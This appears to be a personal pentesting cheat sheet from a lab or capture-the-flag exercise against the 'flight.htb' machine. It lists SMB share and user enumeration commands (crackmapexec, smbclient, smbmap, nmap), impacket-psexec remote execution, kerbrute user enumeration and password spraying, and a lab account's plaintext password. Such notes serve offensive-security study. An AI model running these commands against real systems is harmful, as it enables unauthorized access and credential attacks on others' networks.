![image](https://user-images.githubusercontent.com/19478700/214690049-e84959e2-77d8-4843-b0cc-3aa2b17b1c50.png)

Get basic information on shares:
```s
cme smb IPADDR
```
```s
nmap --script=smb-enum-shares -p "139,445" 
```
```s
smbclient -N -L
```
```s
smbclient -L //10.10.11.187/ -U 'svc_apache' -p 'S@Ss!K@*t13'
``` 
```s
smbmap -H 10.10.11.152
```
![image](https://user-images.githubusercontent.com/19478700/213701493-aea51ee8-7705-4d1c-90e0-b2899c99ff67.png)

See what shares can a user write to:
```s
impacket-psexec flight.htb/svc_apache@flight.htb
```


### Users
```s
crackmapexec smb flight.htb -u svc_apache -p 'S@Ss!K@*t13' --users
```
get user perms:
![image](https://user-images.githubusercontent.com/19478700/215343484-a1ecf120-6ff2-4d4c-8645-e54ad367e00e.png)
ImpersonatePriv can be exploited using potato
**Kerbrute**

Enumerate users:
```s
./kerbrute_linux_amd64 userenum --dc IPADD -d URL users.txt
```
Password Spray: Test a single password against a list of users
```s
./kerbrute_linux_amd64 passwordspray -d URL users.txt 'password123'
```
Possible errors:
Check for clock (+400.)
```s
ntpdate -q IP
```
Fix:
```s
sudo date -s 01:22
ntpdate IP
date
```
Try password on user list:
 User Spray
 ```s
crackmapexec smb flight.htb -u ../users.txt -p 'S@Ss!K@*t13' --continue-on-success
```
